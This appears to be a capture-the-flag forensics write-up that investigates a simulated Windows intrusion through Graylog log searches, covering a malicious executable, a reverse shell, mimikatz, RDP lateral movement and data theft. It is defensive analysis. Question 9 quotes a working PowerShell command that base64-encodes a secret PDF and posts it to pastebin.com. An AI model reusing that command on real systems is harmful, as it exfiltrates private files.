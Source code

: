 ```yaml
---
title: Graylog
tags: 
  - Windows
  - Forensics
  - Infosec
date: 2020-01-19
---
```



Graylog is a log collection and searching program, like splunk. We're told an attack happened and we need to investigate it.

# Question 1

We're looking for new applications being launched which is `EventID: 1` (Process created). From here we can add the `CommandLine` column to the table and scroll through to look for anything suspicous. We can narrow it down even further by adding `AND UserAccount: minty`.

From here, we find `C:\Users\minty\Downloads\cookie_recipe.exe` which is pretty obviously the malicious file.

# Question 2

We can now use this binary path as a value for `ProcessImage`, which gives us a connection established event to DEFANELF:4444, or in ip form, 192.168.247.175:4444

# Question 3

We can use the same binary path as ParentProcessImage to see all the commands they executed with their initial shell. The first command was `whoami`

# Question 4

Using the same search as before, we can keep scrolling to find a bunch of calls to `sc` which target `webexservice`.

# Question 5

From the previous search, we see the new service is calling `C:\Users\minty\Downloads\cookie_recipe2.exe`. We use this as our new `ParentProcessImage` and see `C:\cookie.exe` with what looks like mimikatz invocation arguments.

# Question 6

We can search for EventID: 4624 (An account was successfully logged on). From here, we can look at the quick values for `SourceHostName` and find `DEFANELF`, the same hostname from question 2. Filtering only events with this `SourceHostName` we see all 14 values are with `AccountName: alabaster`.

# Question 7

We can look for remote desktop logins with `LogonType: 10` and see one with the user account `alabaster`. Since we know this account is compromised, it's safe to assume this is the attacker.

# Question 8

First, we look for connections from the workstation that was RDPed to: `EventID: 3 AND source: elfu-res-wks2`. We can narrow this further by only searching for connections after `2019-11-19 06:04:28` (when the RDP session started), as well as adding `AND UserAccount: alabaster`. 
We see something from `explorer.exe`, which indicates they're using something native to windows, rather than another backdoor/C2.
We can then search again for `EventID: 4624` (Logged in), This time narrowing it down with `SourceHostName: ELFU-RES-WKS2` (Windows capitalises it here for whatever reason). We see a bunch of logins to `alabaster` from the compromised computer, all with LogonType `3` (Network).

# Question 9

Searching for processes created on elfu-res-wks2, We see a powershell process with the following invocation:

```powershell
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri https://pastebin.com/post.php -Method POST -Body @{ "submit_hidden" = "submit_hidden"; "paste_code" = $([Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf"))); "paste_format" = "1"; "paste_expire_date" = "N"; "paste_private" = "0"; "paste_name"="cookie recipe" }
```

This means we're reading from `C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf`, which is probably the super secret research.

# Question 10

We can search for messages surrounding the previous and see the Network Connection event, with DestinationIp `104.22.3.84`.